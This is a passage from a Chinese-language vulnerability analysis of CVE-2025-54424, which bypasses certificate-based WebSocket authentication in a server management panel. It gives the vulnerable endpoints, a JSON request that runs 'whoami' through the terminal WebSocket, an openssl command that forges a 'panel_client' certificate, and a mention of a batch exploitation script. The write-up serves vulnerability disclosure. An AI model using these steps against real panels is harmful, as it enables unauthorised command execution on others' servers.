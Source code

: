 5. 后续进入`Certificate`函数中的其他判断，只验证了证书CN字段为panel_client，未验证证书签发者。最后发现WebSocket连接可以绕过Proxy-ID验证。
![](https://image.mrxn.net/fcefb2d277b2409cb761c6a399db454d.webp)
6. 项目中存在大量的websocket接口。

- Process WebSocket 接口（根据上述问题可获取所有的进程等敏感信息）
  路由地址: `/process/ws`
  请求格式如下

```
{
  "type": "ps",           // 数据类型: ps(进程), ssh(SSH会话), net(网络连接), wget(下载进度)
  "pid": 123,             // 可选，指定进程ID进行筛选
  "name": "process_name", // 可选，根据进程名筛选
  "username": "user"      // 可选，根据用户名筛选
}
```
![](https://image.mrxn.net/35be1ba15fc34a1ba8614fa4d271ca4a.webp)

- Terminal SSH WebSocket 接口（根据上述问题可执行任意命令）
  路由地址: `/hosts/terminal`
  请求格式如下
```
{
  "type": "cmd",
  "data": "d2hvYW1pCg=="  // "whoami" 的base64编码，记住不要忘记回车。
}
```
![](https://image.mrxn.net/dd78a5ca2ea64b31bdaaa56c637c339b.webp)

- Container Terminal WebSocket 接口（容器执行命令接口）
  路由地址: `/containers/terminal`
- File Download Process WebSocket 接口（自动推送下载进度信息）
  路由地址: `/files/wget/process`



# 漏洞复现

## 手动复现

1、生成证书

`openssl req -x509 -newkey rsa:2048 -keyout panel_client.key -out panel_client.crt -days 365 -nodes -subj "/CN=panel_client"`

2、burp 加载生成的panel_client.crt和panel_client.key后，打开ws请求，设置目标开始请求

## 批量检测

使用我开发的工具 CVE-2025-54424.py 脚本进行批量检测与利用，工具使用说明如下

安装需要的依赖 `pip install websocket-client cryptography PySocks requests`
